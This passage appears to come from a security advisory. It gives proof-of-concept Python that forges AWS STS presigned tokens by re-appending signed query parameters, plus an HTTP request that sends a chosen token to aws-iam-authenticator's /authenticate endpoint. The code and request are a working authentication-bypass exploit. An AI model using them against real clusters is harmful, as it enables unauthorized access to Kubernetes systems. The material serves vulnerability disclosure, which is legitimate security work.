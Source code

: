 ```python
    signed_url = get_bearer_token(url, headers)

    signed_url = signed_url.replace(f'&action=GetCallerIdentity', '')
    signed_url += f'&action=GetCallerIdentity'

    return base64_encode_no_padding(signed_url)


def create_mal_token_without_cluster_id_header_signed():
    url = f'https://sts.{REGION}.amazonaws.com/?Action=GetCallerIdentity&Version=2011-06-15&x-amz-signedheaders=x-k8s-aws-id'
    headers = {}
    signed_url = get_bearer_token(url, headers)

    signed_url = signed_url.replace('&x-amz-signedheaders=x-k8s-aws-id', '')
    signed_url += '&x-amz-signedheaders=x-k8s-aws-id'

    return base64_encode_no_padding(signed_url)


def create_mal_token_with_other_access_key(value):
    url = f'https://sts.{REGION}.amazonaws.com/?Action=GetCallerIdentity&Version=2011-06-15&x-amz-credential={value}'
    headers = {'x-k8s-aws-id': CLUSTER_ID}
    signed_url = get_bearer_token(url, headers)

    signed_url = signed_url.replace(f'&x-amz-credential={value}', '')
    signed_url += f'&x-amz-credential={value}'

    return base64_encode_no_padding(signed_url)


print("Token with other action:")
print(create_mal_token_with_other_action('GetSessionToken'))

print("Token without cluster id header signed:")
print(create_mal_token_without_cluster_id_header_signed())

print("Token with other value as access key:")
print(create_mal_token_with_other_access_key('some-other-value'))
``` 

3. Choose a token and send the HTTP request below to the aws-iam-authenticator server:
```
POST /authenticate HTTP/1.1
Host: 127.0.0.1:21362
Content-Length: 563

{"Spec":{"Token":"<token-value>"}}
```
Note: You might need to sent the request with the malicious token to the aws-iam-authenticator server multiple times. the reason is explained in the root cause section.
